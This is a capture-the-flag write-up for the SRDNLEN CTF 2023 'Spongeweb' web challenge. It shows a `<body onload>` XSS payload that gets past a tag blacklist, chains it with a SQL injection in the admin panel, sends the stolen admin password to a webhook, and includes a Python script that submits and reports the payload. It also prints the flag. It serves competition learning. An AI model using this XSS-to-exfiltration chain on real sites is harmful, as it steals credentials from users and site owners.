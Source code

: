 # SRDNLEN CTF 2023

## [web] Spongeweb (30 solves)
I really like hacking.<br>
I really like privacy.<br>
And I really like spongebob.<br>
I combined all of them and created an anonymous sharing platform with html support. Feel free to share payloads, malware and stolen credit cards ;).

Btw it's called spongeweb but it has nothing to do with [this](https://trollpasta.com/wiki/SpongeWeb).

Site: [http://spongeweb.challs.srdnlen.it](http://spongeweb.challs.srdnlen.it)


Author: [@sanmatte](https://github.com/sanmatte)

## Exploitation

The flag is stored in the db as admin password, we can see it from the `schema.sql` file which is used to init the db.
Since it isn't allowed to bruteforce the login in the admin panel, we've got to find another way to get the flag. 

Inside the admin panel, once logged in, the admin can execute the following sql query:

```python
cur = get_db().execute("SELECT count(*) FROM {0}".format(query))
```
where the format string argument `query` is the user input.

Looking at the site we know it's possible to create new threads and view them in the `/view?id=` endpoint.
And we can send our unapproved threads to the admin in the `/report` endpoint.

It is also possible to inject HTML when creating a new thread. However both the `<script>` and `<img>` tags are blacklisted.

Since this is not the only to execute javascript we can still inject malicious code with different tags, such as `<body onload=" ">`.

We can now force the admin to make a request to `/admin?query=` and send the response to our webhook:

```html
<body onload="fetch('http://spongeweb.challs.srdnlen.it/admin?query=users+union+select+password+from+users', {mode:'no-cors'}).then(function (data) { return data.text(); }).then(function (html) {fetch('https://webhook.site/[YOURWEBHOOK]?c='+encodeURIComponent(html), {mode:'no-cors'});}).catch(function (err) {  console.warn('Something went wrong.', err); })"></body>
```
with python requests:
```py
import requests
payload = "<body onload=\"fetch('http://spongeweb.challs.srdnlen.it/admin?query=users+union+select+password+from+users', {mode:'no-cors'}).then(function (data) { return data.text(); }).then(function (html) {fetch('https://webhook.site/[YOURWEBHOOK]?r='+encodeURIComponent(html), {mode:'no-cors'});}).catch(function (err) {  console.warn('Something went wrong.', err); })\"></body>"
r = requests.post('http://spongeweb.challs.srdnlen.it/thread', data={'title': 'payload', 'thread':payload})
print(payload)
view = r.url
url = "http://spongeweb.challs.srdnlen.it:80/report/"
headers = {"sec-ch-ua": "\"Not=A?Brand\";v=\"99\", \"Chromium\";v=\"118\"", "Accept": "*/*", "Content-Type": "application/x-www-form-urlencoded; charset=UTF-8", "X-Requested-With": "XMLHttpRequest", "sec-ch-ua-mobile": "?0", "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/118.0.5993.88 Safari/537.36", "sec-ch-ua-platform": "\"macOS\"", "Origin": "http://spongeweb.challs.srdnlen.it", "Sec-Fetch-Site": "same-origin", "Sec-Fetch-Mode": "cors", "Sec-Fetch-Dest": "empty", "Referer": "http://spongeweb.challs.srdnlen.it/report/", "Accept-Encoding": "gzip, deflate, br", "Accept-Language": "en-GB,en-US;q=0.9,en;q=0.8", "Connection": "close"}
data = {"url": view}
res = requests.post(url, headers=headers, data=data)
```

## Summary:
- We bypassed the javascript filters with a different tag such as `<body onload=" ">`.
- We exploited the SQL Injection in the admin panel with: `users union select password from users`
- Combaining those two things we exploited the xss vulnerability in the threads -> made a fetch to `/admin?query=users union select password from users`, saved the response and sent it to our webhook.
- Reported the thread to the admin in the `/report` endpoint and got the flag.

## FLAG
The flag was `srdnlen{XSSS_cr0Ss_S1T3_sP0nG3wEb_SQLi}`.

